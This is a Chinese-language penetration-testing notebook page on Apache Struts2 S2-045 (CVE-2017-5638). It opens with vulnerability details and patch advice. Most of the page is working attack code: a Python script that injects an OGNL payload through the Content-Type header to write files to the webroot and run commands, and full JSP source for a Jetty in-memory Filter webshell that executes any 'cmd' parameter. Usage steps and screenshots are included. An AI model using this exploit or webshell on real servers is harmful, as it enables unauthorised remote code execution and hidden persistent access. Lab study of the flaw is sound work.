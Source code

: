 # s2-045内存马

> [S2-045 写入内存马 - ccadmin - 博客园 (cnblogs.com)](https://www.cnblogs.com/tide-sec/p/16304736.html)
>
> [s2-045真正一键getshell菜刀马-突破任何限制 | pirogue](http://pirogue.org/2017/03/09/s2-045真正一键getshell菜刀马-突破任何限制/)

---

## 漏洞概述

- 漏洞编号: CVE-2017-5638 Struts2远程代码执行漏洞
- 漏洞类型: 远程代码执行漏洞
- 危险等级: 高危
- 利用条件: Struts2在受影响版本内，并包含Commons-FileUpload、Commons-IO库
- 受影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

Struts2是一个基于MVC设计模式的Web应用框架，它本质上相当于一个servlet，在MVC设计模式中，Struts2作为控制器(Controller)来建立模型与视图的数据交互。

Struts2在受影响版本内，并包含Commons-FileUpload、Commons-IO库时, 该漏洞能够通过构造恶意的 Content-Type 值来执行任意代码。 如果 Content-Type 值无效，则会抛出异常，并向用户显示错误消息，从而能够进一步获取服务器权限。

- 安装官方补丁升级到最新版本: Struts 2.3.32 or Struts 2.5.10.1
- 临时修复方法: Struts2 默认使用 Jakarta 的 Common-FileUpload 文件上传解析器, 修改上传解析器为cos或pell。

---

## 漏洞分析

> [JavaSec/7.Struts2专区/S2-045漏洞分析/index.md at main · Y4tacker/JavaSec (github.com)](https://github.com/Y4tacker/JavaSec/blob/main/7.Struts2专区/S2-045漏洞分析/index.md)
>
> 

---

## 命令执行写文件

```python
import httpx
from pathlib import Path
import urllib.parse


# 定义读取文件内容的函数
def read_file(file_path):
    with open(file_path, "r", encoding="utf-8") as file:
        return file.read()


# 读取 index.jsp 文件的内容
CURRENT_DIR = Path(__file__).parent
# file_path = CURRENT_DIR / 'index.jsp'
file_path = CURRENT_DIR / "testFile.txt"

content = read_file(file_path)
# encoded_content = content.encode('utf-8')
content_encoded = urllib.parse.quote(content)

# 设置请求的 URL
url = "http://192.168.1.215:8080/"

# filename = "/index.jsp"
filename = "/testFile.txt"


# 设置请求头
headers = {
    "Upgrade-Insecure-Requests": "1",
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.8,es;q=0.6",
    "Connection": "close",
    "Content-Type": f"%{{(#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ccccc='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#path=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest').getSession().getServletContext().getRealPath('/')).(#shell='{content_encoded}').(new java.io.BufferedWriter(new java.io.FileWriter(#path+'{filename}').append(new java.net.URLDecoder().decode(#shell,'UTF-8'))).close()).(#cmd='echo \\\"write file to '+#path+'\"+ self.num +\"t00ls.jsp\\\"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{{'cmd.exe','/c',#cmd}}:{{'/bin/bash','-c',#cmd}})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}}.multipart/form-data",
}

# 发送 POST 请求
response = httpx.post(url, headers=headers)

# 打印响应结果
print(response.status_code)
print(response.text)

```

![image-20240920152239164](http://cdn.ayusummer233.top/DailyNotes/202409201522232.png)

![image-20240920152302098](http://cdn.ayusummer233.top/DailyNotes/202409201523134.png)

---

## 命令执行写 Filter 内存马

适用于当前环境的 Filter 内存马:

```jsp
<%@ page import="java.lang.reflect.Field"%>
<%@ page import="java.lang.reflect.Method"%>
<%@ page import="java.util.Scanner"%>
<%@ page import="java.util.EnumSet"%>
<%@ page import="java.io.*"%>

<%
    String filterName = "myFilter";
    String urlPattern = "/filter";
    Filter filter = new Filter() {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }
        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
            HttpServletRequest req = (HttpServletRequest) servletRequest;
            if (req.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[] {"sh", "-c", req.getParameter("cmd")} : new String[] {"cmd.exe", "/c", req.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner( in ).useDelimiter("\\a");
                String output = s.hasNext() ? s.next() : "";
                servletResponse.getWriter().write(output);
                servletResponse.getWriter().flush();
                return;
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }
        @Override
        public void destroy() {
        }
    };

    Method threadMethod = Class.forName("java.lang.Thread").getDeclaredMethod("getThreads");
    threadMethod.setAccessible(true);
    Thread[] threads = (Thread[]) threadMethod.invoke(null);
    ClassLoader threadClassLoader = null;

    for (Thread thread:threads)
    {
        threadClassLoader = thread.getContextClassLoader();
        if(threadClassLoader != null){
            if(threadClassLoader.toString().contains("WebAppClassLoader")){
                Field fieldContext = threadClassLoader.getClass().getDeclaredField("_context");
                fieldContext.setAccessible(true);
                Object webAppContext = fieldContext.get(threadClassLoader);
                
                // 打印调试信息
                out.println("webAppContext class: " + webAppContext.getClass().getName() + "<br>");
                out.println("webAppContext superclass: " + webAppContext.getClass().getSuperclass().getName() + "<br>");
                
                try {
                    // 获取 _servletHandler 字段
                    Field fieldServletHandler = webAppContext.getClass().getSuperclass().getSuperclass().getDeclaredField("_servletHandler");
                    fieldServletHandler.setAccessible(true);
                    Object servletHandler = fieldServletHandler.get(webAppContext);
                    Field fieldFilters = servletHandler.getClass().getDeclaredField("_filters");
                    fieldFilters.setAccessible(true);
                    Object[] filters = (Object[]) fieldFilters.get(servletHandler);
                    boolean flag = false;
                    for(Object f:filters){
                        Field fieldName = f.getClass().getSuperclass().getDeclaredField("_name");
                        fieldName.setAccessible(true);
                        String name = (String) fieldName.get(f);
                        if(name.equals(filterName)){
                            flag = true;
                            break;
                        }
                    }
                    if(flag){
                        out.println("[-] Filter " + filterName + " exists.<br>");
                        return;
                    }
                    out.println("[+] Add Filter: " + filterName + "<br>");
                    out.println("[+] urlPattern: " + urlPattern + "<br>");
                    ClassLoader classLoader = servletHandler.getClass().getClassLoader();
                    Class sourceClazz = null;
                    Object holder = null;
                    Field field = null;
                    try{
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.Source");
                        field = sourceClazz.getDeclaredField("JAVAX_API");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, field.get(null));
                    }catch(ClassNotFoundException e){
                        sourceClazz = classLoader.loadClass("org.eclipse.jetty.servlet.BaseHolder$Source");
                        Method method = servletHandler.getClass().getMethod("newFilterHolder", sourceClazz);
                        holder = method.invoke(servletHandler, Enum.valueOf(sourceClazz, "JAVAX_API"));
                    }
                    holder.getClass().getMethod("setName", String.class).invoke(holder, filterName);               
                    holder.getClass().getMethod("setFilter", Filter.class).invoke(holder, filter);
                    servletHandler.getClass().getMethod("addFilter", holder.getClass()).invoke(servletHandler, holder);

                    Class  clazz         = classLoader.loadClass("org.eclipse.jetty.servlet.FilterMapping");
                    Object filterMapping = clazz.newInstance();
                    Method method        = filterMapping.getClass().getDeclaredMethod("setFilterHolder", holder.getClass());
                    method.setAccessible(true);
                    method.invoke(filterMapping, holder);
                    filterMapping.getClass().getMethod("setPathSpecs", String[].class).invoke(filterMapping, new Object[]{new String[]{urlPattern}});
                    filterMapping.getClass().getMethod("setDispatcherTypes", EnumSet.class).invoke(filterMapping, EnumSet.of(DispatcherType.REQUEST));
                    servletHandler.getClass().getMethod("prependFilterMapping", filterMapping.getClass()).invoke(servletHandler, filterMapping);
                } catch (NoSuchFieldException e) {
                    out.println("Error: " + e.getMessage() + "<br>");
                }
            }     
        }
    }
%>
```

和上一步写文件的操作一样, 将此 JSP 内容写入到 webapp 目录下, 访问此文件对应 URL, 第二次访问如果注册成功会输出 `Filter myFilter exists`:

![image-20240920152602531](http://cdn.ayusummer233.top/DailyNotes/202409201526590.png)

然后使用注入的 filter 路由执行命令即可:

![image-20240920152653579](http://cdn.ayusummer233.top/DailyNotes/202409201526648.png)

---

## Servlet马

> TODO: vulhub docker 没复现出来, 暂且搁置
>
> [S2-045 写入内存马 - ccadmin - 博客园 (cnblogs.com)](https://www.cnblogs.com/tide-sec/p/16304736.html)
>
> 





---

## 其他内存马

- Github 全局搜索找到的一个 Struts2 内存马, 但是没看出来作用:

  [JYso/src/main/java/com/qi4l/JYso/template/memshellStatic/struts2/Struts2ActionMS.java at master · qi4L/JYso (github.com)](https://github.com/qi4L/JYso/blob/master/src/main/java/com/qi4l/JYso/template/memshellStatic/struts2/Struts2ActionMS.java)

  









